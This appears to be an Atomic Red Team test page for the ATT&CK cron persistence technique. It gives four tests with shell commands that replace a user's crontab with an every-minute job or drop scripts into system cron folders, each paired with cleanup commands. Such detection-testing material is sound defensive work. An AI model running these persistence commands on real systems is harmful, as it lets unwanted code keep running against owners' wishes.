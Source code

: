 # T1053.003 - Scheduled Task/Job: Cron
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1053/003)
<blockquote>Adversaries may abuse the <code>cron</code> utility to perform task scheduling for initial or recurring execution of malicious code.(Citation: 20 macOS Common Tools and Techniques) The <code>cron</code> utility is a time-based job scheduler for Unix-like operating systems.  The <code> crontab</code> file contains the schedule of cron entries to be run and the specified times for execution. Any <code>crontab</code> files are stored in operating system-specific file paths.

An adversary may use <code>cron</code> in Linux or Unix environments to execute programs at system startup or on a scheduled basis for [Persistence](https://attack.mitre.org/tactics/TA0003). </blockquote>

## Atomic Tests

- [Atomic Test #1 - Cron - Replace crontab with referenced file](#atomic-test-1---cron---replace-crontab-with-referenced-file)

- [Atomic Test #2 - Cron - Add script to all cron subfolders](#atomic-test-2---cron---add-script-to-all-cron-subfolders)

- [Atomic Test #3 - Cron - Add script to /etc/cron.d folder](#atomic-test-3---cron---add-script-to-etccrond-folder)

- [Atomic Test #4 - Cron - Add script to /var/spool/cron/crontabs/ folder](#atomic-test-4---cron---add-script-to-varspoolcroncrontabs-folder)


<br/>

## Atomic Test #1 - Cron - Replace crontab with referenced file
This test replaces the current user's crontab file with the contents of the referenced file. This technique was used by numerous IoT automated exploitation attacks.

**Supported Platforms:** Linux, macOS


**auto_generated_guid:** 435057fb-74b1-410e-9403-d81baf194f75





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| command | Command to execute | string | /tmp/evil.sh|
| tmp_cron | Temporary reference file to hold evil cron schedule | path | /tmp/persistevil|


#### Attack Commands: Run with `sh`! 


```sh
crontab -l > /tmp/notevil
echo "* * * * * #{command}" > #{tmp_cron} && crontab #{tmp_cron}
```

#### Cleanup Commands:
```sh
crontab /tmp/notevil
```





<br/>
<br/>

## Atomic Test #2 - Cron - Add script to all cron subfolders
This test adds a script to /etc/cron.hourly, /etc/cron.daily, /etc/cron.monthly and /etc/cron.weekly folders configured to execute on a schedule. This technique was used by the threat actor Rocke during the exploitation of Linux web servers.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** b7d42afa-9086-4c8a-b7b0-8ea3faa6ebb0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| command | Command to execute | string | echo 'Hello from Atomic Red Team' > /tmp/atomic.log|
| cron_script_name | Name of file to store in cron folder | string | persistevil|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
echo "#{command}" > /etc/cron.daily/#{cron_script_name}
echo "#{command}" > /etc/cron.hourly/#{cron_script_name}
echo "#{command}" > /etc/cron.monthly/#{cron_script_name}
echo "#{command}" > /etc/cron.weekly/#{cron_script_name}
```

#### Cleanup Commands:
```bash
rm /etc/cron.daily/#{cron_script_name} -f
rm /etc/cron.hourly/#{cron_script_name} -f
rm /etc/cron.monthly/#{cron_script_name} -f
rm /etc/cron.weekly/#{cron_script_name} -f
```





<br/>
<br/>

## Atomic Test #3 - Cron - Add script to /etc/cron.d folder
This test adds a script to /etc/cron.d folder configured to execute on a schedule.

**Supported Platforms:** Linux


**auto_generated_guid:** 078e69eb-d9fb-450e-b9d0-2e118217c846





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| command | Command to execute | string | echo '*/5     *       *       *       *       root    echo "Hello from Atomic Red Team"' > /tmp/atomic.log|
| cron_script_name | Name of file to store in cron folder | string | persistevil|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
echo "#{command}" > /etc/cron.d/#{cron_script_name}
```

#### Cleanup Commands:
```sh
rm /etc/cron.d/#{cron_script_name} -f
```





<br/>
<br/>

## Atomic Test #4 - Cron - Add script to /var/spool/cron/crontabs/ folder
This test adds a script to a /var/spool/cron/crontabs folder configured to execute on a schedule. This technique was used by the threat actor Rocke during the exploitation of Linux web servers.

**Supported Platforms:** Linux


**auto_generated_guid:** 2d943c18-e74a-44bf-936f-25ade6cccab4





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| command | Command to execute | string | echo 'Hello from Atomic Red Team' > /tmp/atomic.log|
| cron_script_name | Name of file to store in /var/spool/cron/crontabs folder | string | persistevil|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
echo "#{command}" >> /var/spool/cron/crontabs/#{cron_script_name}
```

#### Cleanup Commands:
```bash
rm /var/spool/cron/crontabs/#{cron_script_name} -f
```





<br/>
